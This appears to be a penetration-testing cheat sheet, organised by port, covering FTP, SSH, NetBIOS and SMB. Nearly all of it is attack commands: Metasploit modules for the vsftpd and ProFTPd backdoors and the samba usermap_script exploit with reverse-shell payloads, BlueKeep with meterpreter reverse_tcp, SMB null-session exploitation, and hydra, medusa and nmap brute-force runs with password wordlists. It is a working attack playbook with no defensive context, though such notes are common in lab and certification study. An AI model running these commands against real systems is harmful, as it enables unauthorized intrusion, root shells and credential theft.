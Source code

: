 # Services

## Port 21 - FTP

Service | Exploit | Intent
:-: |:-|:-
VsFTPd 2.3.4 |msf> exploit/unix/ftp/vsftpd_234_backdoor | Rev Shell Root
ProFTPd 1.3.3 |msf> exloit/unix/ftp/proftpd_133c_backdoor | Rev Shell Root | msf
FTP | msf> auxiliary/scanner/ftp_version | Get version
FTP | msf> auxiliary/scanner/ftp/anonymous | Anonymous ?

---
## Port 22 - SSH

Service | Exploit | Intent
:-: |:-|:-
SSH | `$ hydra -L <userfile> -P <passfile> <@ip_host> ssh`  | Bruteforce
SSH | msf> auxiliary/scanner/ssh_version | Get version

---
## Port 139 - Netbios

Service | Exploit | Intent
:-: |:-|:-
netbios-ssn | msf> auxiliary/scanner/netbios/nbname  | Get hostname
netbios-ssn | `$ nmblookup -A <@ip>`  | Get hostname
netbios-ssn | `nbtstat -a @IP`<br/>`net view \\@IP`<br/>`net use z: \\@IP\c` | Get shares

---
## Port 445 - SMB

Service | Exploit | Intent
:-: |:-|:-
samba win7+ | msf> windows/rdp/cve_2019_0708_bluekeep_rce<br/>msf> windows/x64/meterpreter/reverse_tcp<br/>set target ...  | Rev Shell User
samba | msf> exploit/multi/samba/usermap_script<br/>msf> set PAYLOAD cmd/unix/reverse_netcat | Rev Shell Root

---
## Port 139/445 - Netbios / SMB

Service | Exploit | Intent | Comment
:-: |:-|:-|:-
samba|`$ enum4linux -A <@ip>`|Get hostname|versions samba 2.2.x are red flag
samba|`$ nmap --script=smb-enum* --script-args=unsafe=1 -T5 <@ip>IP`|Quick enumeration|
samba|`$ smbver.sh <@ip>`|Get version|script used to get smb version if nmap fails
samba|msf> scanner/smb/smb_version|Get version|
samba|`$ ngrep -i -d tap0 's.?a.?m.?b.?a$[[:digit:]]'`<br/>`$ smbclient -L \\\\@IP`|Get version|if all fails
samba|1. run wireshark<br/>2. smbmap -H @IP<br/>3. follow the tcp stream of the smb|Get version|note by 1kwstassak in reddit.com
samba|`$ smbmap -H <@ip> -R <sharename>`|Get shares|recusively display files in specific share
samba|`$ echo exit | smbclient -L \\\\<@ip>`|Get shares|
samba|`$ smbclient -L \\\\<@ip>\\<share>`|Get shares|more details in cherrytree file (info gathering / active / enumeration / services / 139.SMB)
samba|`$ smbclient -L //<@ip> -N`|Get shares|-N force the tool to not ask for password
samba|`$ nmap --script smb-enum-shares -p139,445 -T4 -Pn <@ip>`|Get shares|
samba|`$ smbclient -L \\\\<@ip>\\`|Get shares|more details in cherrytree file (info gathering / active / enumeration / services / 139.SMB)
samba|`$ smbmap -H <@ip>`|Check null sessions|Vuln : Win NT, 2000 XP (SMB1), samba unix srv<br/>Not : Win 2K3, XP SP2
samba|`$ rpcclient -U "" -N $IP`|Check null sessions|
samba|`$ smbclient //<@ip>P/IPC$ -N`|Check null sessions|success #:/smb>
samba|`$ enum -s <@ip>`|Exploit null sessions|shares of the machines
samba|`$ enum -U <@ip>`|Exploit null sessions|enumerate usersA133:AMJ133
samba|`$ enum -P <@ip>`|Exploit null sessions|check the passwd policy
samba|`$ enum4linux -A <@ip>`|Exploit null sessions|use all enum switches users/shares/passwd policies
samba|`# ./smardump.py <@ip>`|Exploit null sessions|/usr/share/doc/python3-impacket/examples/smardump.py
samba|`$ smbclient //$IP/share -U <username>`|Connect to username share|this step required u have a cred
samba|`$ smbclient -L \\\\<@ip>\\<share>`|Connect to anonymous share|more details in cherrytree file (info gathering / active / enumeration / services / 139.SMB)
samba|`$ smbclient -L //<@ip>/<share>`|Connect to anonymous share|
samba|`$ smbclient -L //<@ip>/<share\ name>`<br/>`smbclient -L //<@ip>/<"share name">`|Connect to anonymous share|If share has a space in between its name (eg "My shares")
samba|`$ rpcclient -U " " <@ip>`|Connect to anonymous share|Connect to null share which is the IPC$ share, enumerate with specific commands, refer to onenote
samba|`$ rpcclient -U " " -N <@ip>`|Connect to anonymous share|Connect to null share which is the IPC$ share, enumerate with specific commands, refer to onenote
samba|`$ nmap --script smb-vuln -p139,445 -T4 -Pn <@ip>`|Check vuln|
samba|msf> resource smb_checks.rc<br/>or:<br/>`# msfconsole -r /usr/share/metasploit-framework/scripts/resource/smb_checks.rc`|Check common security concerns|check common security concerns for SMB win<br/>MS08-067, MS17-010, SMB VER 1
samba|msf> resource smb_validate.rc<br/>or:<br/>`# msfconsole -r /usr/share/metasploit-framework/scripts/resource/smb_validate.rc`|Extra validation|after running the previous 
samba|`msf> use exploit/multi/samba/usermap_script`<br/>`msf> set lhost 192.168.0.X`<br/>`msf> set rhost $IP`<br/>`msf> run`|Multi exploits|
samba|`# medusa -h <@ip> -u userhere -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -M smbnt`<br/>`# nmap -p445 --script smb-brute --script-args userdb=userfilehere,passdb=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt <@ip> -vvvv`<br/>`# nmap --script smb-brute <@ip>`|Bruteforce|Bruteforce login after enum users

